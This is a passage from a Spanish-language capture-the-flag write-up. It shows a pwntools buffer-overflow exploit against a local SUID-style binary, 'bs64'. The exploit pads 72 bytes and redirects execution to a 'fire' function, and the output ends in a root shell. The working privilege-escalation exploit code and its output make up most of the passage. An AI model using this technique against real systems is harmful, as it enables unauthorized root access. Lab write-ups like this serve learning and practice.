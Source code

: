 Ahora checamos su direccon de memoria:
```bash
pwndbg> info functions fire
All functions matching regular expression "fire":

Non-debugging symbols:
0x000000000040136a  fire
```

Ahora para ecplotar el binario usaremos el exploit del usuario [dise0](https://dise0.gitbook.io/h4cker_b00k/ctf/dockerlabs/seeker-dockerlabs-intermediate) para ganar acceso como **root**
**exploit.py** lo creamos en el directorio **tmp**
```python
#!/bin/python3

from pwn import *

# Configuración del binario
binary = '/home/astu/secure/bs64'  # Reemplaza con la ruta del binario
context.binary = binary

# Cargar el binario
elf = ELF(binary)
p = process(binary)

# Dirección de la función "fire"
fire_func = 0x40136b  # Dirección de la función fire

# Crear el payload
payload = b"A" * 72  # Relleno hasta el EIP (offset de 72 bytes)
payload += p64(fire_func)  # Dirección de la función "fire"

# Enviar el payload
log.info(f"Enviando payload: {payload}")
p.sendline(payload)

# Mantener la interacción
p.interactive()
```

Le damos permisos de ejecucion:
```bash
chmod +x exploit.py
```

Ejecutamos el **exploit**
```bash
python3 exploit.py
```

---
## Evidencia de Compromiso
```bash
# Captura de pantalla o output final

[+] Starting local process '/home/astu/secure/bs64': pid 593
[*] Enviando payload: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAk\x13@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
Ingrese el texto: QUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFaxN

$ whoami
root
```

---